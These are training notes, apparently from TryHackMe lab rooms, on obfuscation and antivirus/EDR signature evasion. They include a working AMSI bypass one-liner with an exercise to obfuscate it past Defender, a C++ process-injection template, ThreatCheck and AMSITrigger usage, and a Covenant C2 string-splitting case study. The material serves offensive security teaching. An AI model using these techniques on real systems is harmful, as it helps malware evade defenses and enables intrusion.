





# Host Evasions

## Obfuscation Principles

Obfuscation is an essential component of detection evasion methodology and preventing analysis of malicious software. Obfuscation originated to protect software and intellectual property from being stolen or reproduced. While it is still widely used for its original purpose, adversaries have adapted its use for malicious intent.

### Origins of Obfuscation

Obfuscation is widely used in many software-related fields to protect **IP** (**I**ntellectual **P**roperty) and other proprietary information an application may contain.

For example, the popular game: Minecraft uses the obfuscator [ProGuard](https://github.com/Guardsquare/proguard) to obfuscate and minimize its Java classes. Minecraft also releases **obfuscation maps** with limited information as a translator between the old un-obfuscated classes and the new obfuscated classes to support the modding community.


This is only one example of the wide range of ways obfuscation is publicly used. To document and organize the variety of obfuscation methods, we can reference the [Layered obfuscation: a taxonomy of software obfuscation techniques for layered security paper](https://cybersecurity.springeropen.com/track/pdf/10.1186/s42400-020-00049-3.pdf). This research paper organizes obfuscation methods by layers, similar to the OSI model but for application data flow. Below is the figure used as the complete overview of each taxonomy layer.


Each sub-layer is then broken down into specific methods that can achieve the overall objective of the sub-layer.

In this room, we will primarily focus on the **code-element layer** of the taxonomy, as seen in the figure below.


To use the taxonomy, we can determine an objective and then pick a method that fits our requirements. For example, suppose we want to obfuscate the layout of our code but cannot modify the existing code. In that case, we can inject junk code, summarized by the taxonomy:

`Code Element Layer`>`Obfuscating Layout`>`Junk Codes`

But how could this be used maliciously? Adversaries and malware developers can leverage obfuscation to break signatures or prevent program analysis. In the upcoming tasks, we will discuss both perspectives of malware obfuscation, including the purpose and underlying techniques of each.

---

### Obfuscation's Function for Static Evasion

Two of the more considerable security boundaries in the way of an adversary are **anti-virus engines** and **EDR (Endpoint Detection & Response)** solutions.Both platforms will leverage an extensive database of known signatures referred to as static signatures as well as heuristic signatures that consider application behavior.

To evade signatures, adversaries can leverage an extensive range of logic and syntax rules to implement obfuscation. This is commonly achieved by abusing data obfuscation practices that hide important identifiable information in legitimate applications.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer. Below is a table of methods covered by the taxonomy in the **obfuscating data** sub-layer.


| Obfuscation Method     | Purpose                                                               |
|--------------------------|-----------------------------------------------------------------------|
| Array Transformation   | Transforms an array by splitting, merging, folding, and flattening    |
| Data Encoding          | Encodes data with mathematical functions or ciphers                   |
| Data Procedurization      | Substitutes static data with procedure calls                          |
| Data Splitting/Merging | Distributes information of one variable into several new variables |

In the upcoming tasks, we will primarily focus on **data splitting/merging**; because static signatures are weaker, we generally only need to focus on that one aspect in initial obfuscation.

---

### Object Concatenation

**Concatenation** is a common programming concept that combines two separate objects into one object, such as a string.

A pre-defined operator defines where the concatenation will occur to combine two independent objects. Below is a generic example of string concatenation in Python.

```python
>>> A = "Hello "
>>> B = "THM"
>>> C = A + B
>>> print(C)
Hello THM
>>>
```
Depending on the language used in a program, there may be different or multiple pre-defined operators than can be used for concatenation. Below is a small table of common languages and their corresponding pre-defined operators.

| Language    | Concatenation Operator                           |
|-------------|--------------------------------------------------|
| Python      | "**+**"                                          |
| PowerShell  | "**+**", "**,**", "**$**", or no operator at all |
| C#          | "**+**", "**String.Join**", "**String.Concat**"  |
| C           | "**strcat**"                                     |
| C++         | "**+**", "**append**"                            |

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **data splitting/merging** sub-layer.

Concatenation can open the doors to several vectors to modify signatures or manipulate other aspects of an application. The most common example of concatenation being used in malware is breaking targeted **static signatures**.Attackers can also use it preemptively to break up all objects of a program and attempt to remove all signatures at once without hunting them down, commonly seen in obfuscators.

Below we will observe a static **Yara** rule and attempt to use concatenation to evade the static signature.

```bash
rule ExampleRule
{
    strings:
        $text_string = "AmsiScanBuffer"
        $hex_string = { B8 57 00 07 80 C3 }

    condition:
        $my_text_string or $my_hex_string
}
```
When a compiled binary is scanned with Yara, it will create a positive alert/detection if the defined string is present. Using concatenation, the string can be functionally the same but will appear as two independent strings when scanned, resulting in no alerts.

`IntPtr ASBPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer");`

<div align="center">
  
</div>

`IntPtr ASBPtr = GetProcAddress(TargetDLL, "Amsi" + "Scan" + "Buffer");`

If the second code block were to be scanned with the Yara rule, there would be no alerts!

Extending from concatenation, attackers can also use **non-interpreted characters** to disrupt or confuse a static signature. These can be used independently or with concatenation, depending on the strength/implementation of the signature. Below is a table of some common non-interpreted characters that we can leverage.

| Character   | Purpose                                                       | Example                                                        |
|-------------|---------------------------------------------------------------|----------------------------------------------------------------|
| Breaks      | Break a single string into multiple sub strings and combine them | `('co'+'ffe'+'e')`                                          |
| Reorders    | Reorder a string's components                                 | `('\{1\}\{0\}'-f'ffee','co')`                                |
| Whitespace  | Include white space that is not interpreted                   | `.( 'Ne' +'w-Ob' + 'ject')`                                 |
| Ticks       | Include ticks that are not interpreted                       | `d~own~LoAd~ Stri~ng`                                    |
| Random Case | Tokens are generally not case sensitive and can be any arbitrary case | `dOwnLoAdsTRing`                                         |

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet until it evades Defender’s detections.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
---

### Obfuscation's Function for Analysis Deception

After obfuscating basic functions of malicious code, it may be able to pass software detections but is still susceptible to human analysis. While not a security boundary without further policies, analysts and reverse engineers can gain deep insight into the functionality of our malicious application and halt operations.

Adversaries can leverage advanced logic and mathematics to create more complex and harder-to-understand code to combat analysis and reverse engineering.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under other sub-layers of the code-element layer. Below is a table of methods covered by the taxonomy in the **obfuscating layout** and **obfuscating controls sub-layers**.


| Obfuscation Method            | Purpose                                                                                                  |
|--------------------------------|----------------------------------------------------------------------------------------------------------|
| Junk Code                        | Add junk instructions that are non-functional, also known as code stubs                                |
| Separation of Related Code       | Separate related codes or instructions to increase difficulty in reading the program                      |
| Stripping Redundant Symbols    | Strips symbolic information such as debug information or other symbol tables                             |
| Meaningless Identifiers        | Transform a meaningful identifier to something meaningless                                            |
| Implicit Controls              | Converts explicit controls instructions to implicit instructions                                     |
| Dispatcher-based Controls      | Determines the next block to be executed during the runtime                                           |
| Probabilistic Control Flows    | Introduces replications of control flows with the same semantics but different syntax                    |
| Bogus Control Flows            | Control flows deliberately added to a program but will never be executed                                  |

---

### Code Flow and Logic

**Control flow** is a critical component of a program’s execution that will define how a program will logically proceed. **Logic** is one of the most significant determining factors to an application’s control flow and encompasses various uses such as **if/else statements** or **for loops**. A program will traditionally execute from the top-down; when a logic statement is encountered, it will continue execution by following the statement.

Below is a table of some logic statements you may encounter when dealing with control flows or program logic.

| Logic Statement | Purpose                                                                                                                                                                                                            |
|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| if/else         | Executes only **if** a condition is met, **else** it will execute a different code block                                                                                                                          |
| try/catch       | Will **try** to execute a code block and **catch** it if it fails to handle errors.                                                                                                                              |
| switch case     | A **switch** will follow similar conditional logic to an if statement but checks several different possible conditions with **cases** before resolving to a **break** or **default**                                 |
| for/while loop  | A **for** loop will execute for a set amount of a condition. A **while** loop will execute until a condition is no longer met.                                                                                    |

To make this concept concrete, we can observe an example function and its corresponding CFG (Control Flow Graph) to depict it’s possible control flow paths.

```bash
x = 10 
if(x > 7):
	print("This executes")
else:
	print("This is ignored")
```


What does this mean for attackers? An analyst can attempt to understand a program’s function through its control flow; while problematic, logic and control flow is almost effortless to manipulate and make arbitrarily confusing. When dealing with control flow, an attacker aims to introduce enough obscure and arbitrary logic to confuse an analyst but not too much to raise further suspicion or potentially be detected by a platform as malicious.

---

### Arbitrary Control Flow Patterns

To craft **arbitrary control flow patterns** we can leverage **maths**, **logic**, and/or other **complex algorithms** to inject a different control flow into a malicious function.

We can leverage **predicates** to craft these complex logic and/or mathematical algorithms. Predicates refer to the decision-making of an input function to return **true** or **false**. Breaking this concept down at a high level, we can think of a predicate similar to the condition an if statement uses to determine if a code block will be executed or not, as seen in the example in the previous task.

Applying this concept to obfuscation, **opaque predicates** are used to control a known output and input. The paper, [Opaque Predicate: Attack and Defense in Obfuscated Binary Code](https://etda.libraries.psu.edu/files/final_submissions/17513), states, “An opaque predicate is a predicate whose value is known to the obfuscator but is difficult to deduce. It can be seamlessly applied with other obfuscation methods such as junk code to turn reverse engineering attempts into arduous work.” Opaque predicates fall under the **bogus control flow** and **probabilistic control flow** methods of the taxonomy paper; they can be used to arbitrarily add logic to a program or refactor the control flow of a pre-existing function.

The topic of opaque predicates requires a deeper understanding of mathematics and computing principles, so we will not cover it in-depth, but we will observe one common example.

The **Collatz Conjecture** is a common mathematical problem that can be used as an example of an opaque predicate. It states: If two arithmetic operations are repeated, they will return one from every positive integer. The fact that we know it will always output one for a known input (a positive integer) means it is a viable opaque predicate. For more information about the Collatz conjecture, refer to the [Collatz Problem](https://mathworld.wolfram.com/CollatzProblem.html). Below is an example of the Collatz conjecture applied in Python.


```python
x = 0
while(x > 1):
	if(x%2==1):
		x=x*3+1
	else:
		x=x/2
	if(x==1):
		print("hello!") 
```
In the above code snippet, the Collatz conjecture will only perform its mathematical operations if `x > 1`, resulting in `1` or `TRUE`. From the definition of the Collatz problem, it will always return one for a positive integer input, so the statement will always return true if `x` is a positive integer greater than one.

To prove the efficacy of this opaque predicate, we can observe its **CFG** (**C**ontrol **F**low **G**raph) to the right. If this is what an interpreted function looks like, just imagine what a compiled function may look like to an analyst.

Using the knowledge you have accrued throughout this task, put yourself into the shoes of an analyst and attempt to decode the original function and output of the code snippet below.

If you correctly follow the print statements, it will result in a flag you can submit.

*Challenge Code Snippet*
```python
x = 3
swVar = 1
a = 112340857612345
b = 1122135047612359087
i = 0
case_1 = ["T","d","4","3","3","3","e","1","g","w","p","y","8","4"]
case_2 = ["1a","H","3a","4a","5a","3","7a","8a","d","10a","11a","12a","!","14a"]
case_3 = ["1b","2b","M","4b","5b","6b","c","8b","9b","3","11b","12b","13b","14b"]
case_4 = ["1c","2c","3c","{","5c","6c","7c","8c","9c","10c","d","12c","13c","14c"]
case_5 = ["1d","2d","3d","4d","D","6d","7d","o","9d","10d","11d","!","13d","14d"]
case_6 = ["1e","2e","3e","4e","5e","6e","7e","8e","9e","10e","11e","12e","13e","}"]

while (x > 1):
    if (x % 2 == 1):
        x = x * 3 + 1
    else:
        x = x / 2
    if (x == 1):
        for y in case_1:
            match swVar:
                case 1:
                    print(case_1[i])
                    a = 2
                    b = 214025
                    swVar = 2
                case 2:
                    print(case_2[i])
                    if (a > 10):
                        swVar = 6
                    else:
                        swVar = 3
                case 3:
                    print(case_3[i])
                    b = b + a
                    if (b < 10):
                        swVar = 5
                    else:
                        swVar = 4
                case 4:
                    print(case_4[i])
                    b -= b
                    swVar = 5
                case 5:
                    print(case_5[i])
                    a += a
                    swVar = 2
                case 6:
                    print(case_5[11])
                    print(case_6[i])
                    break
            i = i + 1 
```
---

### Protecting and Stripping Identifiable Information

Identifiable information can be one of the most critical components an analyst can use to dissect and attempt to understand a malicious program. By limiting the amount of identifiable information (variables, function names, etc.), an analyst has, the better chance an attacker has they won't be able to reconstruct its original function.

At a high level, we should consider three different types of identifiable data: code structure, object names, and file/compilation properties. In this task, we will break down the core concepts of each and a case study of a practical approach to each.

<span style="font-size: 23px;">**Object Names**</span>

Object names offer some of the most significant insight into a program's functionality and can reveal the exact purpose of a function. An analyst can still deconstruct the purpose of a function from its behavior, but this is much harder if there is no context to the function.

The importance of literal object names may change depending on if the language is **compiled** or **interpreted**. If an interpreted language such as **Python** or **PowerShell** is used, then all objects matter and must be modified. If a compiled language such as C or C# is used, only objects appearing in the strings are generally significant. An object may appear in the strings by any function that produces an **IO operation**.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **meaningless identifiers** method.

Below we will observe two basic examples of replacing meaningful identifiers for both an interpreted and compiled language.

As an example of a compiled language, we can observe a process injector written in C++ that reports its status to the command line.

```c#
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```
Let’s use strings to see exactly what was leaked when this source code is compiled.

```bash
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```
Notice that all of the iostream was written to strings, and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look like!

We can remove comments and replace the meaningful identifiers to resolve this problem.

```c#
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```
We should no longer have any identifiable string information, and the program is safe from string analysis.

As an example for an interpreted language we can observe the deprecated [Badger PowerShell loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) from the [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit).

```bash
Set-StrictMode -Version 2
...
```
You may notice that some cmdlets and functions are kept in their original state… why is that? Depending on your objectives, you may want to create an application that can still confuse reverse engineers after detection but may not look immediately suspicious. If a malware developer were to obfuscate all cmdlets and functions, it would raise the entropy in both interpreted and compiled languages resulting in higher EDR alert scores. It could also lead to an interpreted snippet appearing suspicious in logs if it is seemingly random or visibly heavily obfuscated.

<span style="font-size: 23px;">**Code Structure**</span>

Code structure can be a bothersome problem when dealing with all aspects of malicious code that are often overlooked and not easily identified. If not adequately addressed in both interpreted and compiled languages, it can lead to signatures or easier reverse engineering from an analyst.

As covered in the aforementioned taxonomy paper, **junk code** and **reordering code** are both widely used as additional measures to add complexity to an interpreted program. Because the program is not compiled, an analyst has much greater insight into the program, and if not artificially inflated with complexity, they can focus on the exact malicious functions of an application.

Separation of related code can impact both interpreted and compiled languages and result in hidden signatures that may be hard to identify. A heuristic signature engine may determine whether a program is malicious based on the surrounding functions or API calls. To circumvent these signatures, an attacker can randomize the occurrence of related code to fool the engine into believing it is a safe call or function.

<span style="font-size: 23px;">**File & Compilation Properties**</span>

More minor aspects of a compiled binary, such as the compilation method, may not seem like a critical component, but they can lead to several advantages to assist an analyst. For example, if a program is compiled as a debug build, an analyst can obtain all the available global variables and other program information.

The compiler will include a symbol file when a program is compiled as a debug build. Symbols commonly aid in debugging a binary image and can contain global and local variables, function names, and entry points. Attackers must be aware of these possible problems to ensure proper compilation practices and that no information is leaked to an analyst.

Luckily for attackers, symbol files are easily removed through the compiler or after compilation. To remove symbols from a compiler like **Visual Studio**, we need to change the compilation target from `Debug` to `Release` or use a lighter-weight compiler like mingw.

If we need to remove symbols from a pre-compiled image, we can use the command-line utility: `strip`.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **stripping redundant symbols** method.

Below is an example of using strip to remove the symbols from a binary compiled in **gcc** with debugging enabled.

## Signature Evasion

An adversary may struggle to overcome specific detections when facing an advanced anti-virus engine or **EDR (Endpoint Detection & Response)** solution. Even after employing some of the most common obfuscation or evasion techniques discussed in Obfuscation Principles, signatures in a malicious file may still be present.

To combat persistent signatures, adversaries can observe each individually and address them as needed.

### Signature Identification

When identifying signatures, whether manually or automated, we must employ an iterative process to determine what byte a signature starts at. By recursively splitting a compiled binary in half and testing it, we can get a rough estimate of a byte-range to investigate further.

We can use the native utilities `head`, `dd`, or `split` to split a compiled binary. In the below command prompt, we will walk through using head to find the first signature present in a msfvenom binary.

Once split, move the binary from your development environment to a machine with the anti-virus engine you would like to test on. If an alert appears, move to the lower half of the split binary and split it again. If an alert does not appear, move to the upper half of the split binary and split it again. Continue this pattern until you cannot determine where to go; this will typically occur around the kilobyte range.

Once you have reached the point at which you no longer accurately split the binary, you can use a hex editor to view the end of the binary where the signature is present.

```bash
0000C2E0  43 68 6E E9 0A 00 00 00 0C 4D 1A 8E 04 3A E9 89  Chné.....M.Ž.:é‰
0000C2F0  67 6F BE 46 01 00 00 6A 40 90 68 00 10 00 00 E9  go¾F...j@.h....é
0000C300  0A 00 00 00 53 DF A1 7F 64 ED 40 73 4A 64 56 90  ....Sß¡.dí@sJdV.
0000C310  6A 00 68 58 A4 53 E5 E9 08 00 00 00 15 0D 69 B6  j.hX¤Såé......i¶
0000C320  F4 AB 1B 73 FF D5 E9 0A 00 00 00 7D 43 00 40 DB  ô«.sÿÕé....}C.@Û
0000C330  43 8B AC 55 82 89 C3 90 E9 08 00 00 00 E4 95 8E  C‹¬U‚‰Ã.é....ä•Ž
0000C340  2C 06 AC 29 A3 89 C7 90 E9 0B 00 00 00 0B 32 AC  ,.¬)£‰Ç.é.....2¬
```
We have the location of a signature; how human-readable it is will be determined by the tool itself and the compilation method.

---

### Automating Signature Identification

The process shown in the previous task can be quite arduous. To speed it up, we can automate it using scripts to split bytes over an interval for us. Find-AVSignature will split a provided range of bytes through a given interval.

```powershell
PS C:\> . .\FInd-AVSignature.ps1
PS C:\> Find-AVSignature

cmdlet Find-AVSignature at command pipeline position 1
Supply values for the following parameters:
StartByte: 0
EndByte: max
Interval: 1000

Do you want to continue?
This script will result in 1 binaries being written to "C:\Users\TryHackMe"!
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): y
```
This script relieves a lot of the manual work, but still has several limitations. Although it requires less interaction than the previous task, it still requires an appropriate interval to be set to function properly. This script will also only observe strings of the binary when dropped to disk rather than scanning using the full functionality of the anti-virus engine.

To solve this problem we can use other **FOSS** (**Free and Open-Source Software**) tools that leverage the engines themselves to scan the file, including [DefenderCheck](https://github.com/matterpreter/DefenderCheck), [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck), and [AMSITrigger](https://github.com/RythmStick/AMSITrigger). In this task, we will primarily focus on ThreatCheck and briefly mention the uses of AMSITrigger at the end.

<span style="font-size: 23px;">**ThreatCheck**</span>

ThreatCheck is a fork of DefenderCheck and is arguably the most widely used/reliable of the three. To identify possible signatures, ThreatCheck leverages several anti-virus engines against split compiled binaries and reports where it believes bad bytes are present.

ThreatCheck does not provide a pre-compiled release to the public. For ease of use we have already compiled the tool for you; it can be found in `C:\Users\Administrator\Desktop\Toolsof` the attached machine.

Below is the basic syntax usage of ThreatCheck.

```powershell
C:\>ThreatCheck.exe --help
  -e, --engine    (Default: Defender) Scanning engine. Options: Defender, AMSI
  -f, --file      Analyze a file on disk
  -u, --url       Analyze a file from a URL
  --help          Display this help screen.
  --version       Display version information.
```
For our uses we only need to supply a file and optionally an engine; however, we will primarily want to use AMSITrigger when dealing with **AMSI** (**Anti-Malware Scan Interface**), as we will discuss later in this task.

```powershell
C:\>ThreatCheck.exe -f Downloads\Grunt.bin -e AMSI
	[+] Target file size: 31744 bytes
	[+] Analyzing...
	[!] Identified end of bad bytes at offset 0x6D7A
	00000000   65 00 22 00 3A 00 22 00  7B 00 32 00 7D 00 22 00   e·"·:·"·{·2·}·"·
	00000010   2C 00 22 00 74 00 6F 00  6B 00 65 00 6E 00 22 00   ,·"·t·o·k·e·n·"·
	00000020   3A 00 7B 00 33 00 7D 00  7D 00 7D 00 00 43 7B 00   :·{·3·}·}·}··C{·
	00000030   7B 00 22 00 73 00 74 00  61 00 74 00 75 00 73 00   {·"·s·t·a·t·u·s·
	00000040   22 00 3A 00 22 00 7B 00  30 00 7D 00 22 00 2C 00   "·:·"·{·0·}·"·,·
	00000050   22 00 6F 00 75 00 74 00  70 00 75 00 74 00 22 00   "·o·u·t·p·u·t·"·
	00000060   3A 00 22 00 7B 00 31 00  7D 00 22 00 7D 00 7D 00   :·"·{·1·}·"·}·}·
	00000070   00 80 B3 7B 00 7B 00 22  00 47 00 55 00 49 00 44   ·?³{·{·"·G·U·I·D
	00000080   00 22 00 3A 00 22 00 7B  00 30 00 7D 00 22 00 2C   ·"·:·"·{·0·}·"·,
	00000090   00 22 00 54 00 79 00 70  00 65 00 22 00 3A 00 7B   ·"·T·y·p·e·"·:·{
	000000A0   00 31 00 7D 00 2C 00 22  00 4D 00 65 00 74 00 61   ·1·}·,·"·M·e·t·a
	000000B0   00 22 00 3A 00 22 00 7B  00 32 00 7D 00 22 00 2C   ·"·:·"·{·2·}·"·,
	000000C0   00 22 00 49 00 56 00 22  00 3A 00 22 00 7B 00 33   ·"·I·V·"·:·"·{·3
	000000D0   00 7D 00 22 00 2C 00 22  00 45 00 6E 00 63 00 72   ·}·"·,·"·E·n·c·r
	000000E0   00 79 00 70 00 74 00 65  00 64 00 4D 00 65 00 73   ·y·p·t·e·d·M·e·s
	000000F0   00 73 00 61 00 67 00 65  00 22 00 3A 00 22 00 7B   ·s·a·g·e·"·:·"·{
```
It’s that simple! No other configuration or syntax is required and we can get straight to modifying our tooling. To efficiently use this tool we can identify any bad bytes that are first discovered then recursively break them and run the tool again until no signatures are identified.

<span style="font-size: 23px;">**AMSITrigger**</span>

As covered in Runtime Detection Evasion, AMSI leverages the runtime, making signatures harder to identify and resolve. ThreatCheck also does not support certain file types such as PowerShell that AMSITrigger does.

AMSITrigger will leverage the AMSI engine and scan functions against a provided PowerShell script and report any specific sections of code it believes need to be alerted on.

AMSITrigger does provide a pre-compiled release on their GitHub and can also be found on the Desktop of the attached machine.

Below is the syntax usage of AMSITrigger

```powershell
C:\>amsitrigger.exe --help
```
For our uses we only need to supply a file and the preferred format to report signatures.

```powershell
PS C:\> .\amsitrigger.exe -i bypass.ps1 -f 3
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
---

### Static Code-Based Signatures

Once we have identified a troublesome signature we need to decide how we want to deal with it. Depending on the strength and type of signature, it may be broken using simple obfuscation as covered in Obfuscation Principles, or it may require specific investigation and remedy. In this task, we aim to provide several solutions to remedy static signatures present in functions.

The [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/track/pdf/10.1186/s42400-020-00049-3.pdf) covers the most reliable solutions as part of the **Obfuscating Methods** and **Obfuscating Classes** layer.

<span style="font-size: 23px;">**Obfuscating methods**</span>

| Obfuscation Method        | Purpose                                                       |
|---------------------------|---------------------------------------------------------------|
| Method Proxy              | Creates a proxy method or a replacement object               |
| Method Scattering/Aggregation | Combine multiple methods into one or scatter a method into several |
| Method Clone              | Create replicas of a method and randomly call each           |

<span style="font-size: 23px;">**Obfuscating Classes**</span>

| Obfuscation Method         | Purpose                                                              |
|----------------------------|----------------------------------------------------------------------|
| Class Hierarchy Flattening | Create proxies for classes using interfaces                          |
| Class Splitting/Coalescing | Transfer local variables or instruction groups to another class      |
| Dropping Modifiers         | Remove class modifiers (public, private) and make all members public |

Looking at the above tables, even though they may use specific technical terms or ideas, we can group them into a core set of agnostic methods applicable to any object or data structure.

The techniques **class splitting**/**coalescing** and **method scattering**/**aggregation** can be grouped into an overarching concept of splitting or merging any given **OOP** (Object-Oriented Programming) function.

Other techniques such as **dropping modifiers** or **method clone** can be grouped into an overarching concept of removing or obscuring identifiable information.

<span style="font-size: 23px;">**Splitting and Merging Objects**</span>

The methodology required to split or merge objects is very similar to the objective of concatenation as covered in Obfuscation Principles.

The premise behind this concept is relatively easy, we are looking to create a new object function that can break the signature while maintaining the previous functionality.

To provide a more concrete example of this, we can use the [well-known case study](https://offensivedefence.co.uk/posts/covenant-profiles-templates/) in Covenant present in the `GetMessageFormat` string. We will first look at how the solution was implemented then break it down and apply it to the obfuscation taxonomy.

**Original String**

Below is the original string that is detected
```bash
string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";
```

**Obfuscated Method**

Below is the new class used to replace and concatenate the string.

```bash
public static string GetMessageFormat // Format the public method
{
    get // Return the property value
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"","); // Start the built-in concatenation method
        sb.Append(@"""Type"":{1},"); // Append substrings onto the string
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString(); // Return the concatenated string to the class
    }
}

string MessageFormat = GetMessageFormat
```

Recapping this case study, class splitting is used to create a new class for the local variable to concatenate. We will cover how to recognize when to use a specific method later in this task and throughout the practical challenge.

<span style="font-size: 23px;">**Removing and Obscuring Identifiable Information**</span>

The core concept behind removing identifiable information is similar to obscuring variable names as covered in Obfuscation Principles. In this task, we are taking it one step further by specifically applying it to identified signatures in any objects including methods and classes.

